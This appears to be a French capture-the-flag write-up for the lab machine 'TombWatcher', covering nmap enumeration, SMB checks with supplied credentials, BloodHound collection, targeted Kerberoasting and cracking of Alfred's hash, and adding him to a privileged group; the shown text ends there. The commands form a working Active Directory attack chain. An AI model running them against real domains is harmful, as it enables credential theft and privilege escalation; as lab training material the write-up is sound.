`TombWatcher` est une machine Active Directory de difficulté medium de type `assumed breach`.  Je commencerai donc avec les identifiants `henry:H3nry_987TGV!`. L’énumération avec `BloodHound` révèle que **Henry** dispose des privilèges `WriteSPN` sur **Alfred**, qui dispose des privilèges `AddSelf` sur le groupe **Infrastructure**. Les membres de ce groupe disposent des privilèges `ReadGMSAPassword` sur le compte **ansible_dev**. Ce dernier dispose des privilèges `ForceChangePassword` sur l'utilisateur **Sam**, qui dispose des privilèges `WriteOwner` sur **John** ce qui nous permet d'avoir un shell. Une fois connecté, nous remarquons qu'il y a des objets supprimés avec le même nom de compte **cert_admin**. À partir de cet utilisateur, j’exploiterai le scénario B de `ESC15` dans l’environnement `ADCS` pour obtenir un shell en tant qu’Administrateur.

# Enumeration
## Nmap

Il y a plusieurs ports ouverts.
```shell
nmap 10.129.25.88 --min-rate 5000 -Pn -sV -sC -vv -p- -oN Nmap.txt
```

```shell
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Microsoft IIS httpd 10.0
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-title: IIS Windows Server
|_http-server-header: Microsoft-IIS/10.0
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-06-09 01:59:02Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-09T02:00:35+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.tombwatcher.htb
| Issuer: commonName=tombwatcher-CA-1/domainComponent=tombwatcher
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-11-16T00:47:59
| Not valid after:  2025-11-16T00:47:59
| MD5:   a3964dc0104d3c5854e019e3c2ae0666
| SHA-1: fe5e76e2d5284a338adfc84e92e3900e4234ef9c
| -----BEGIN CERTIFICATE-----
| MIIF9jCCBN6gAwIBAgITLgAAAAKKaXDNTUaJbgAAAAAAAjANBgkqhkiG9w0BAQUF
| ADBNMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLdG9tYndh
| dGNoZXIxGTAXBgNVBAMTEHRvbWJ3YXRjaGVyLUNBLTEwHhcNMjQxMTE2MDA0NzU5
| WhcNMjUxMTE2MDA0NzU5WjAfMR0wGwYDVQQDExREQzAxLnRvbWJ3YXRjaGVyLmh0
| YjCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAPkYtnAM++hvs4LhMUtp
| OFViax2s+4hbaS74kU86hie1/cujdlofvn6NyNppESgx99WzjmU5wthsP7JdSwNV
| XHo02ygX6aC4eJ1tbPbe7jGmVlHU3XmJtZgkTAOqvt1LMym+MRNKUHgGyRlF0u68
| IQsHqBQY8KC+sS1hZ+tvbuUA0m8AApjGC+dnY9JXlvJ81QleTcd/b1EWnyxfD1YC
| ezbtz1O51DLMqMysjR/nKYqG7j/R0yz2eVeX+jYa7ZODy0i1KdDVOKSHSEcjM3wf
| hk1qJYZHD+2Agn4ZSfckt0X8ZYeKyIMQor/uDNbr9/YtD1WfT8ol1oXxw4gh4Ye8
| ar0CAwEAAaOCAvswggL3MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBv
| AG4AdAByAG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEw
| DgYDVR0PAQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCA
| MA4GCCqGSIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCG
| SAFlAwQBAjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0O
| BBYEFAqc8X8Ifudq/MgoPpqm0L3u15pvMB8GA1UdIwQYMBaAFCrN5HoYF07vh90L
| HVZ5CkBQxvI6MIHPBgNVHR8EgccwgcQwgcGggb6ggbuGgbhsZGFwOi8vL0NOPXRv
| bWJ3YXRjaGVyLUNBLTEsQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIw
| U2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz10b21id2F0
| Y2hlcixEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVj
| dENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHGBggrBgEFBQcBAQSBuTCBtjCB
| swYIKwYBBQUHMAKGgaZsZGFwOi8vL0NOPXRvbWJ3YXRjaGVyLUNBLTEsQ049QUlB
| LENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZp
| Z3VyYXRpb24sREM9dG9tYndhdGNoZXIsREM9aHRiP2NBQ2VydGlmaWNhdGU/YmFz
| ZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1UdEQQ5MDeg
| HwYJKwYBBAGCNxkBoBIEEPyy7selMmxPu2rkBnNzTmGCFERDMDEudG9tYndhdGNo
| ZXIuaHRiMA0GCSqGSIb3DQEBBQUAA4IBAQDHlJXOp+3AHiBFikML/iyk7hkdrrKd
| gm9JLQrXvxnZ5cJHCe7EM5lk65zLB6lyCORHCjoGgm9eLDiZ7cYWipDnCZIDaJdp
| Eqg4SWwTvbK+8fhzgJUKYpe1hokqIRLGYJPINNDI+tRyL74ZsDLCjjx0A4/lCIHK
| UVh/6C+B68hnPsCF3DZFpO80im6G311u4izntBMGqxIhnIAVYFlR2H+HlFS+J0zo
| x4qtaXNNmuaDW26OOtTf3FgylWUe5ji5MIq5UEupdOAI/xdwWV5M4gWFWZwNpSXG
| Xq2engKcrfy4900Q10HektLKjyuhvSdWuyDwGW1L34ZljqsDsqV1S0SE
|_-----END CERTIFICATE-----
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.tombwatcher.htb
| Issuer: commonName=tombwatcher-CA-1/domainComponent=tombwatcher
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-11-16T00:47:59
| Not valid after:  2025-11-16T00:47:59
| MD5:   a3964dc0104d3c5854e019e3c2ae0666
| SHA-1: fe5e76e2d5284a338adfc84e92e3900e4234ef9c
| -----BEGIN CERTIFICATE-----
| MIIF9jCCBN6gAwIBAgITLgAAAAKKaXDNTUaJbgAAAAAAAjANBgkqhkiG9w0BAQUF
| ADBNMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLdG9tYndh
| dGNoZXIxGTAXBgNVBAMTEHRvbWJ3YXRjaGVyLUNBLTEwHhcNMjQxMTE2MDA0NzU5
| WhcNMjUxMTE2MDA0NzU5WjAfMR0wGwYDVQQDExREQzAxLnRvbWJ3YXRjaGVyLmh0
| YjCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAPkYtnAM++hvs4LhMUtp
| OFViax2s+4hbaS74kU86hie1/cujdlofvn6NyNppESgx99WzjmU5wthsP7JdSwNV
| XHo02ygX6aC4eJ1tbPbe7jGmVlHU3XmJtZgkTAOqvt1LMym+MRNKUHgGyRlF0u68
| IQsHqBQY8KC+sS1hZ+tvbuUA0m8AApjGC+dnY9JXlvJ81QleTcd/b1EWnyxfD1YC
| ezbtz1O51DLMqMysjR/nKYqG7j/R0yz2eVeX+jYa7ZODy0i1KdDVOKSHSEcjM3wf
| hk1qJYZHD+2Agn4ZSfckt0X8ZYeKyIMQor/uDNbr9/YtD1WfT8ol1oXxw4gh4Ye8
| ar0CAwEAAaOCAvswggL3MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBv
| AG4AdAByAG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEw
| DgYDVR0PAQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCA
| MA4GCCqGSIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCG
| SAFlAwQBAjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0O
| BBYEFAqc8X8Ifudq/MgoPpqm0L3u15pvMB8GA1UdIwQYMBaAFCrN5HoYF07vh90L
| HVZ5CkBQxvI6MIHPBgNVHR8EgccwgcQwgcGggb6ggbuGgbhsZGFwOi8vL0NOPXRv
| bWJ3YXRjaGVyLUNBLTEsQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIw
| U2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz10b21id2F0
| Y2hlcixEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVj
| dENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHGBggrBgEFBQcBAQSBuTCBtjCB
| swYIKwYBBQUHMAKGgaZsZGFwOi8vL0NOPXRvbWJ3YXRjaGVyLUNBLTEsQ049QUlB
| LENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZp
| Z3VyYXRpb24sREM9dG9tYndhdGNoZXIsREM9aHRiP2NBQ2VydGlmaWNhdGU/YmFz
| ZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1UdEQQ5MDeg
| HwYJKwYBBAGCNxkBoBIEEPyy7selMmxPu2rkBnNzTmGCFERDMDEudG9tYndhdGNo
| ZXIuaHRiMA0GCSqGSIb3DQEBBQUAA4IBAQDHlJXOp+3AHiBFikML/iyk7hkdrrKd
| gm9JLQrXvxnZ5cJHCe7EM5lk65zLB6lyCORHCjoGgm9eLDiZ7cYWipDnCZIDaJdp
| Eqg4SWwTvbK+8fhzgJUKYpe1hokqIRLGYJPINNDI+tRyL74ZsDLCjjx0A4/lCIHK
| UVh/6C+B68hnPsCF3DZFpO80im6G311u4izntBMGqxIhnIAVYFlR2H+HlFS+J0zo
| x4qtaXNNmuaDW26OOtTf3FgylWUe5ji5MIq5UEupdOAI/xdwWV5M4gWFWZwNpSXG
| Xq2engKcrfy4900Q10HektLKjyuhvSdWuyDwGW1L34ZljqsDsqV1S0SE
|_-----END CERTIFICATE-----
|_ssl-date: 2025-06-09T02:00:34+00:00; +4h00m00s from scanner time.
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-09T02:00:35+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.tombwatcher.htb
| Issuer: commonName=tombwatcher-CA-1/domainComponent=tombwatcher
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-11-16T00:47:59
| Not valid after:  2025-11-16T00:47:59
| MD5:   a3964dc0104d3c5854e019e3c2ae0666
| SHA-1: fe5e76e2d5284a338adfc84e92e3900e4234ef9c
| -----BEGIN CERTIFICATE-----
| MIIF9jCCBN6gAwIBAgITLgAAAAKKaXDNTUaJbgAAAAAAAjANBgkqhkiG9w0BAQUF
| ADBNMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLdG9tYndh
| dGNoZXIxGTAXBgNVBAMTEHRvbWJ3YXRjaGVyLUNBLTEwHhcNMjQxMTE2MDA0NzU5
| WhcNMjUxMTE2MDA0NzU5WjAfMR0wGwYDVQQDExREQzAxLnRvbWJ3YXRjaGVyLmh0
| YjCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAPkYtnAM++hvs4LhMUtp
| OFViax2s+4hbaS74kU86hie1/cujdlofvn6NyNppESgx99WzjmU5wthsP7JdSwNV
| XHo02ygX6aC4eJ1tbPbe7jGmVlHU3XmJtZgkTAOqvt1LMym+MRNKUHgGyRlF0u68
| IQsHqBQY8KC+sS1hZ+tvbuUA0m8AApjGC+dnY9JXlvJ81QleTcd/b1EWnyxfD1YC
| ezbtz1O51DLMqMysjR/nKYqG7j/R0yz2eVeX+jYa7ZODy0i1KdDVOKSHSEcjM3wf
| hk1qJYZHD+2Agn4ZSfckt0X8ZYeKyIMQor/uDNbr9/YtD1WfT8ol1oXxw4gh4Ye8
| ar0CAwEAAaOCAvswggL3MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBv
| AG4AdAByAG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEw
| DgYDVR0PAQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCA
| MA4GCCqGSIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCG
| SAFlAwQBAjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0O
| BBYEFAqc8X8Ifudq/MgoPpqm0L3u15pvMB8GA1UdIwQYMBaAFCrN5HoYF07vh90L
| HVZ5CkBQxvI6MIHPBgNVHR8EgccwgcQwgcGggb6ggbuGgbhsZGFwOi8vL0NOPXRv
| bWJ3YXRjaGVyLUNBLTEsQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIw
| U2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz10b21id2F0
| Y2hlcixEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVj
| dENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHGBggrBgEFBQcBAQSBuTCBtjCB
| swYIKwYBBQUHMAKGgaZsZGFwOi8vL0NOPXRvbWJ3YXRjaGVyLUNBLTEsQ049QUlB
| LENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZp
| Z3VyYXRpb24sREM9dG9tYndhdGNoZXIsREM9aHRiP2NBQ2VydGlmaWNhdGU/YmFz
| ZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1UdEQQ5MDeg
| HwYJKwYBBAGCNxkBoBIEEPyy7selMmxPu2rkBnNzTmGCFERDMDEudG9tYndhdGNo
| ZXIuaHRiMA0GCSqGSIb3DQEBBQUAA4IBAQDHlJXOp+3AHiBFikML/iyk7hkdrrKd
| gm9JLQrXvxnZ5cJHCe7EM5lk65zLB6lyCORHCjoGgm9eLDiZ7cYWipDnCZIDaJdp
| Eqg4SWwTvbK+8fhzgJUKYpe1hokqIRLGYJPINNDI+tRyL74ZsDLCjjx0A4/lCIHK
| UVh/6C+B68hnPsCF3DZFpO80im6G311u4izntBMGqxIhnIAVYFlR2H+HlFS+J0zo
| x4qtaXNNmuaDW26OOtTf3FgylWUe5ji5MIq5UEupdOAI/xdwWV5M4gWFWZwNpSXG
| Xq2engKcrfy4900Q10HektLKjyuhvSdWuyDwGW1L34ZljqsDsqV1S0SE
|_-----END CERTIFICATE-----
3269/tcp  open  ssl/ldap      syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: tombwatcher.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-06-09T02:00:34+00:00; +4h00m00s from scanner time.
| ssl-cert: Subject: commonName=DC01.tombwatcher.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:DC01.tombwatcher.htb
| Issuer: commonName=tombwatcher-CA-1/domainComponent=tombwatcher
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2024-11-16T00:47:59
| Not valid after:  2025-11-16T00:47:59
| MD5:   a3964dc0104d3c5854e019e3c2ae0666
| SHA-1: fe5e76e2d5284a338adfc84e92e3900e4234ef9c
| -----BEGIN CERTIFICATE-----
| MIIF9jCCBN6gAwIBAgITLgAAAAKKaXDNTUaJbgAAAAAAAjANBgkqhkiG9w0BAQUF
| ADBNMRMwEQYKCZImiZPyLGQBGRYDaHRiMRswGQYKCZImiZPyLGQBGRYLdG9tYndh
| dGNoZXIxGTAXBgNVBAMTEHRvbWJ3YXRjaGVyLUNBLTEwHhcNMjQxMTE2MDA0NzU5
| WhcNMjUxMTE2MDA0NzU5WjAfMR0wGwYDVQQDExREQzAxLnRvbWJ3YXRjaGVyLmh0
| YjCCASIwDQYJKoZIhvcNAQEBBQADggEPADCCAQoCggEBAPkYtnAM++hvs4LhMUtp
| OFViax2s+4hbaS74kU86hie1/cujdlofvn6NyNppESgx99WzjmU5wthsP7JdSwNV
| XHo02ygX6aC4eJ1tbPbe7jGmVlHU3XmJtZgkTAOqvt1LMym+MRNKUHgGyRlF0u68
| IQsHqBQY8KC+sS1hZ+tvbuUA0m8AApjGC+dnY9JXlvJ81QleTcd/b1EWnyxfD1YC
| ezbtz1O51DLMqMysjR/nKYqG7j/R0yz2eVeX+jYa7ZODy0i1KdDVOKSHSEcjM3wf
| hk1qJYZHD+2Agn4ZSfckt0X8ZYeKyIMQor/uDNbr9/YtD1WfT8ol1oXxw4gh4Ye8
| ar0CAwEAAaOCAvswggL3MC8GCSsGAQQBgjcUAgQiHiAARABvAG0AYQBpAG4AQwBv
| AG4AdAByAG8AbABsAGUAcjAdBgNVHSUEFjAUBggrBgEFBQcDAgYIKwYBBQUHAwEw
| DgYDVR0PAQH/BAQDAgWgMHgGCSqGSIb3DQEJDwRrMGkwDgYIKoZIhvcNAwICAgCA
| MA4GCCqGSIb3DQMEAgIAgDALBglghkgBZQMEASowCwYJYIZIAWUDBAEtMAsGCWCG
| SAFlAwQBAjALBglghkgBZQMEAQUwBwYFKw4DAgcwCgYIKoZIhvcNAwcwHQYDVR0O
| BBYEFAqc8X8Ifudq/MgoPpqm0L3u15pvMB8GA1UdIwQYMBaAFCrN5HoYF07vh90L
| HVZ5CkBQxvI6MIHPBgNVHR8EgccwgcQwgcGggb6ggbuGgbhsZGFwOi8vL0NOPXRv
| bWJ3YXRjaGVyLUNBLTEsQ049REMwMSxDTj1DRFAsQ049UHVibGljJTIwS2V5JTIw
| U2VydmljZXMsQ049U2VydmljZXMsQ049Q29uZmlndXJhdGlvbixEQz10b21id2F0
| Y2hlcixEQz1odGI/Y2VydGlmaWNhdGVSZXZvY2F0aW9uTGlzdD9iYXNlP29iamVj
| dENsYXNzPWNSTERpc3RyaWJ1dGlvblBvaW50MIHGBggrBgEFBQcBAQSBuTCBtjCB
| swYIKwYBBQUHMAKGgaZsZGFwOi8vL0NOPXRvbWJ3YXRjaGVyLUNBLTEsQ049QUlB
| LENOPVB1YmxpYyUyMEtleSUyMFNlcnZpY2VzLENOPVNlcnZpY2VzLENOPUNvbmZp
| Z3VyYXRpb24sREM9dG9tYndhdGNoZXIsREM9aHRiP2NBQ2VydGlmaWNhdGU/YmFz
| ZT9vYmplY3RDbGFzcz1jZXJ0aWZpY2F0aW9uQXV0aG9yaXR5MEAGA1UdEQQ5MDeg
| HwYJKwYBBAGCNxkBoBIEEPyy7selMmxPu2rkBnNzTmGCFERDMDEudG9tYndhdGNo
| ZXIuaHRiMA0GCSqGSIb3DQEBBQUAA4IBAQDHlJXOp+3AHiBFikML/iyk7hkdrrKd
| gm9JLQrXvxnZ5cJHCe7EM5lk65zLB6lyCORHCjoGgm9eLDiZ7cYWipDnCZIDaJdp
| Eqg4SWwTvbK+8fhzgJUKYpe1hokqIRLGYJPINNDI+tRyL74ZsDLCjjx0A4/lCIHK
| UVh/6C+B68hnPsCF3DZFpO80im6G311u4izntBMGqxIhnIAVYFlR2H+HlFS+J0zo
| x4qtaXNNmuaDW26OOtTf3FgylWUe5ji5MIq5UEupdOAI/xdwWV5M4gWFWZwNpSXG
| Xq2engKcrfy4900Q10HektLKjyuhvSdWuyDwGW1L34ZljqsDsqV1S0SE
|_-----END CERTIFICATE-----
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49677/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49678/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49679/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49698/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49710/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49732/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode:
|   311:
|_    Message signing enabled and required
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 38850/tcp): CLEAN (Timeout)
|   Check 2 (port 41963/tcp): CLEAN (Timeout)
|   Check 3 (port 25438/udp): CLEAN (Timeout)
|   Check 4 (port 64405/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
|_clock-skew: mean: 3h59m59s, deviation: 0s, median: 3h59m59s
| smb2-time:
|   date: 2025-06-09T01:59:54
|_  start_date: N/A
```

J'ajoute ensuite le nom de domaine, le NetBios ainsi que le FQDN dans le fichier `/etc/hosts`.
```shell
echo "10.129.242.219 tombwatcher.htb DC01.tombwatcher.htb DC01" | sudo tee -a /etc/hosts
```


## SMB - TCP 445

Les identifiants fournis sont valides.
```shell
nxc smb tombwatcher -u 'henry' -p 'H3nry_987TGV!'
```


En énumérant les partages, je vois qu'Henry n'a accès à aucun intéressant.
```shell
nxc smb tombwatcher.htb -u 'henry' -p 'H3nry_987TGV!' --shares
```



# Shell as john
## BloodHound

Avec `bloodhound-python`, je récolte les relations entre les différents objets du domaine.
```shell
bloodhound-python -u 'henry' -p 'H3nry_987TGV!' -d tombwatcher.htb -ns 10.129.25.88 -c All --zip
```



## Targeted Kerberoasting on Alfred

`Henry` dispose des privilèges `WriteSPN` sur `Alfred`, qui dispose des privilèges `AddSelf` sur le groupe `Infrastructure`. Voici donc les étapes :
1. J'exécute une attaque Kerberos ciblée sur Alfred pour obtenir son hash NetNTLMv2.
2. Je craque le hachage.


Mais avant tout cela, je dois synchroniser l'heure entre le contrôleur de domaine et ma machine. Pour cela, j'utilise `faketime` pour lancer un shell contenant l'horodatage du contrôleur de domaine.
```shell
faketime "$(rdate -n dc01.tombwatcher.htb -p | awk '{print $2, $3, $4}' | date -f - "+%Y-%m-%d %H:%M:%S")" zsh
```

J'exécute donc l'attaque Kerberos ciblée.
```shell
targetedKerberoast.py -v -d 'tombwatcher.htb' -u 'henry' -p 'H3nry_987TGV!' -o Alfred
```


Et maintenant j'ai craqué le hash et trouvé le mot de passe : `basketball`
```shell
john --wordlist=/usr/share/wordlists/rockyou.txt Alfred
```



## Add Alfred in Infrastructure group

Alfred dispose des privilèges `AddSelf` sur le groupe `Infrastructure`, ce qui signifie qu'il peut s'ajouter lui-même à ce groupe.
```shell
bloodyAD --host '10.129.25.88' -u 'alfred' -p 'basketball' add groupMember 'infrastructure' 'alfred'
```

Avec la commande suivante, je vérifie que l'ajout a est effectif.
```shell
bloodyAD --host '10.129.25.88' -u 'alfred' -p 'basketball' get membership 'alfred'
```
